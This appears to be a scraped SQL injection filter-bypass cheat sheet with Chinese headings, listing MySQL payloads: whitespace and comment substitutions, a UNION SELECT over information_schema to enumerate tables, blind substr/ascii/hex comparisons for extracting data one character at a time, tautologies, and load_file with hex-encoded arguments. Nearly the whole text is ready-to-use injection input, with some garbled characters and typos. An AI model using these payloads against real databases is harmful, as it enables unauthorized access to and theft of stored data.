 #空格
%20 %09 %0a %0b %0c %0d %a0 /**/
'or+(1)sounds/**/like"1"–%a0-
'union(select(1),tabe_name,(3)from`information_schema`.`tables`)#

#有引号的字符串
SELECT 'a'
SELECT "a"
SELECT n'a'
SELECT b'1100001′
SELECT _binary'1100001′
SELECT x'61′

#没有引号的字符串
　'abc' = 0×616263
　　' and substr(data,1,1) = 'a'#
　　' and substr(data,1,1) = 0x61 # 0x6162
　　' and substr(data,1,1) = unhex(61)    # unhex(6162)
　　' and substr(data,1,1) = char(97  )# char(97,98)
　　' and substr(data,1,1) = 'a'#
　　' and hex(substr(data,1,1)) = 61#
　　' and ascii(substr(data,1,1)) = 97#
　　' and ord(substr(data,1,1)) = 97# 
　　' and substr(data,1,1) = lower(conv(10,10,36))# 'a'

#别名
select pass as alias from users
select pass`alias alias`from users

#字型
' or true = '1 # or 1=1
' or round(pi(),1)+true+true = version() # or 3.1+1+1 = 5.1
' or '1 # or true
#操作符字型
select * from users where 'a'='b'='c'
select * from users where ('a'='b')='c'
select * from users where (false)='c'

#认真绕过'='
select * from users where name = "="
select * from users where false = "
select * from users where 0 = 0
select * from users where true#函数过滤器ascii (97)
load_file/*foo*/(0×616263)

#用函数构建字符串
'abc' = unhex(616263)
'abc' = char(97,98,99)
 hex('a') = 61
 ascii('a') = 97
 ord('a') = 97
'ABC' = concat(conv(10,10,36),conv(11,10,36),conv(12,10,36))

#特殊字符
　　aes_encrypt(1,12) // 4鏷眥"^z譎é蒃a
　　des_encrypt(1,2) // 侴Ò/镏k
　　@@ft_boolean_syntax // + -&gt;&lt;()~*:""&amp;|
　　@@date_format // %Y-%m-%d
　　@@innodb_log_group_home_dir // .\
